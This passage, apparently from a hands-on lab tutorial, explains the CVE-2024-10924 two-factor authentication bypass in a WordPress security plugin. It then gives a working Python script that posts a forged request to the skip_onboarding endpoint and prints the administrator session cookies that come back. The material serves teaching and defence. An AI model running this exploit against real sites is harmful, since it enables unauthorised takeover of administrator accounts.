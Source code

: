 However, this function is called even if authentication fails. Therefore, the attacker is seamlessly redirected to the desired page, bypassing the authentication mechanism. Such instances are the first of their kind, and normally, such security flaws have never been seen in a renowned plugin.

It is important to note that the vulnerability only works for the accounts against whom 2FA is enabled. The chain of methods reveals how improper validation leads to a critical security flaw:

- In `skip_onboarding`: The return value from `check_login_and_get_user` is not validated, allowing a null response to be treated as a valid user.
- In `check_login_and_get_user`: While it correctly identifies invalid credentials, it relies on the caller to handle its return value, which does not happen.
- In `authenticate_and_redirect`: It blindly redirects users based on the parameters passed to it, assuming they have been properly authenticated.

Now that we understand the concept behind the vulnerability, let's exploit it in the next task.

## Exploiting CVE-2024-10924

Exploiting this vulnerability is straightforward and involves sending a crafted POST request to the vulnerable `/reallysimplessl/v1/two_fa/skip_onboarding` endpoint. From the previous task, we learned that the endpoint accepts three key parameters: the user's ID attempting to skip 2FA onboarding, a nonce value which is not validated correctly, and the URL to redirect the user after the operation.

### Exploiting WordPress Admin Panel through a POST Call

In the attached VM, open the browser and visit the website `http://vulnerablewp.thm:8080/wp-admin`. We will see that the website is protected through a login panel. Our goal is to retrieve credentials against a WordPress user `admin` with `user_id` 1.

Below is a simple Python script that sends a POST request to the vulnerable endpoint. This script extracts and displays the cookies in response to authenticate the user.

```python
import requests
import urllib.parse
import sys

if len(sys.argv) != 2:
    print("Usage: python exploit.py <user_id>")
    sys.exit(1)

user_id = sys.argv[1]

url = "http://vulnerablewp.thm:8080/?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding"
data = {
    "user_id": int(user_id),  # User ID from the argument
    "login_nonce": "invalid_nonce",  # Arbitrary value
    "redirect_to": "/wp-admin/"  # Target redirection
}

# Sending the POST request
response = requests.post(url, json=data)

# Checking the response
if response.status_code == 200:
    print("Request successful!\n")
    
    # Extracting cookies
    cookies = response.cookies.get_dict()
    count = 1

    for name, value in cookies.items():
        decoded_value = urllib.parse.unquote(value)  # Decode the URL-encoded cookie value
        print(f"Cookie {count}:")
        print(f"Cookie Name: {name}")
        print(f"Cookie Value: {decoded_value}\n")
```